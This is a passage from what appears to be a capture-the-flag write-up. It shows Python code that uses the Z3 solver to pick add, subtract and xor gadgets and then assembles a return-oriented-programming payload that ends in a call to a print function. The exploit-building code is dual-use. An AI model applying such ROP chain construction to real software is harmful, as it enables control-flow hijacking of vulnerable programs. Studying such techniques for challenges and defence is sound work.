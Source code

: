 We can begin constructing constraints and feeding things to a Z3 solver!

```py
    # Create solver.
    s = Solver()

    add_terms = [v * BitVecVal(g['const'], 16) for v, g in zip(add_vars, add_gadgets)]
    sub_terms = [v * BitVecVal(g['const'], 16) for v, g in zip(sub_vars, sub_gadgets)]
    xor_terms = [v * BitVecVal(g['const'], 16) for v, g in zip(xor_vars, xor_gadgets)]

    # XOR everything in xor_terms.
    from functools import reduce
    xor_all = reduce(lambda x, y: x ^ y, xor_terms)

    # Add base constraint which ties everything together.
    s.add(BitVecVal(rax_init_value, 16) + Sum(add_terms) - Sum(sub_terms) == BitVecVal(target, 16) ^ xor_all)
```

But this constraint isn't enough. Without other constraints, Z3 would return ginormous values which technically satisfy the equation. But there's no way we can call a gadget 1851138 times or -29301 times. We'll need some constraints to limit the values the symbols can take on.

```py
    # Bounds constraints.
    addsub_limit = 100
    s.add(And([ULT(bv, addsub_limit) for bv in add_vars]))
    s.add(And([ULT(bv, addsub_limit) for bv in sub_vars]))
    s.add(And([ULE(bv, 1) for bv in xor_vars]))   # Boolean property.

    # Limitting constraint. Total number of gadgets shouldn't exceed a limit.
    gadget_limit = 400 # 4000 bytes limit divide by 8 bytes per gadget.
    s.add(1 + Sum(add_vars) + Sum(sub_vars) + Sum(xor_vars) <= gadget_limit)
```

Now that we limit our gadgets properly, we can move on to our final step: evaluation. We'll kindly ask Z3 to spit out a solution, and construct our payload.

```py
    # Check satisfiability (and also compute a solution).
    if s.check() != sat:
        raise RuntimeError('unable to satisfy constraints')
    m = s.model()

    # Initialise rax first. (8 byte padding for rbp.)
    chain = b'A'*8 + p64(init_rax_addr)

    # Chain add gadgets.
    for bv, g in zip(add_vars, add_gadgets):
        chain += p64(g['vaddr']) * m.evaluate(bv).as_long()
        # m.evaluate(bv).as_long()...
        #   == 0 => nothing is added to the chain.
        #   == 1 => call (chain) gadget once.
        #   == 2 => call (chain) gadget twice.
        #   etc...

    # Chain subtract gadgets.
    for bv, g in zip(sub_vars, sub_gadgets):
        chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

    # Chain xor gadgets.
    for bv, g in zip(xor_vars, xor_gadgets):
        chain += p64(g['vaddr']) * m.evaluate(bv).as_long()

    # Finally call print.
    chain += p64(elf.sym['print'])

```